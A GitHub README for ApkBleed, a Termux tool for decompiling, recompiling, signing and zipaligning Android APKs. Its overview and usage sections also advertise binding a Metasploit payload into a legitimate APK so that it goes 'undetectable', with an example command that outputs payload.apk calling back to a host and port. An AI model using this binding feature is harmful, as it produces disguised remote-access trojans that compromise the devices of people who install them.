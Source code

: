 <h1 align="center"> ApkBleed </h1>
<h3 align="center"> Command Line APK Reverse Enginering Tool</h3>
<h4 align="center"> Designed For Termux. Made With <3 <3 </h4>


# ApkBleed

ApkBleed Is An Advance APK Reverse Enginering Tool Made For Specialy Made For Termux.

Because Few Months Ago Termux Officialy Removed OpenJDK8 JRE From Their Repo.

So Tools Like Tmux-Bunch([@Hax4Us](https://github.com/Hax4Us)) Stoped Working. Many Time Hax4Us Tried To Fix Tmux-Bunch. But Can't Make It Happend.

Then [@Remo7777](http://github.com/remo7777) Came Up With An Idea Of PROOT And Created Bind-Apk. But It Consume Too Much Of Storage. After Installing It Becomes 1.8GB-2.0GB.

So I Came Up With And Idea Of Alpine Linux. It Is Small In Size. But There Was An Problem Of AAPT(Android Asset Packaging Tool)

Because AAPT Wasn't Available For Alpine. So I Reached To Hax4Us To Compile AAPT For Alpine.

After 2-3 Days He Added AAPT Source With His Tool New ApkMod

ApkMod Is A Great Tool. But Don't Have Many Options.So I Created ApkBleed.

You Can Say That ApkBleed Is Inspired By ApkMod


# Why Is It Called ApkBleed

<b>APK</b> - Stands For Android Packages

<b>Bleed</b> - Added Bleed Just To Make It Cool


# Table Of Contents

1.[Version](http://github.com/ng1nX4O4/ApkBleed#version)
2.[Overview](http://github.com/ng1nX4O4/ApkBleed#overview)
3.[Setup](http://github.com/ng1nX4O4/ApkBleed#setup)
4.[Usage](http://github.com/ng1nX4O4/ApkBleed#overview)
5.[Contact](http://github.com/ng1nX4O4/ApkBleed#contact)
6.[Credit](http://github.com/ng1nX4O4/ApkBleed#credit)


# Version

	ApkBleed  :    1.1
	Aurthor   :    Rabby Sheikh


# Overview

*Decompile Source Of An APk With Decoded AndroidManifest.xml File Using Apktool Installed In Alpine PROOT.
*Recompile An Apk Source Code With Apktool And AAPT Installed In Alpine PROOT.
*Sign An Apk Using SignApk Built In Alpine PROOT.
*ZipAlign An Apk For Better Optimization Using ZipAlign
*Most Imported Binding With Metasploit Framwork. It Binds MSF Payload With An Original Apk And Make It Undectable.
*This Tool Only Work With My Java Repo You Can Find It [Here](http://github.com/ng1nX4O4/termux-java)


# Setup

[*]Note: This Tool Is Only For Termux User And Support ARM,AARCH64 And X64_86 Architecture. More Support Coming Soon

```
git clone http://github.com/ng1nx4O4/ApkBleed
cd ApkBleed
```


# Usage

<h4>Decompile</h4>
```
apkbleed -d <path-of-apk> <path-of-output>
```

<h4>Recompile</h4>
```
apkbleed -r <path-of-folder> <path-of-output-apk>
```

<h4>SignApk</h4>
```
apkbleed -s <path-of-apk> <path-of-output-apk>
```

<h4>ZipAlign</h4>
```
apkbleed -z <path-of-apk> <path-of-output-apk>
```

<h4>Binding</h4>
```
apkbleed -b <host-ip> <port> <path-of-apk> <path-of-output-apk>
```

Example: apkbleed -b 127.0.0.1 4444 /sdcard/test.apk /sdcard/payload.apk


# Contact

If You Wanna Contact Me Then Here Is Some Details

	Facebook  :   [@ng1nX4O4](https://www.facebook.com/ng1nX4O4)
	Email     :   nullsqu4d.ng1nx4o4@gmail.com



# Credit

1.[AAPT](https://github.com/Hax4us/Apkmod/tree/master/aapt): [@Hax4Us](https://github.com/Hax4us/)
2.PROOT-APKTOOL: [@remo7777](https://github.com/remo7777)
3.ApkTool: @iBotPeaches
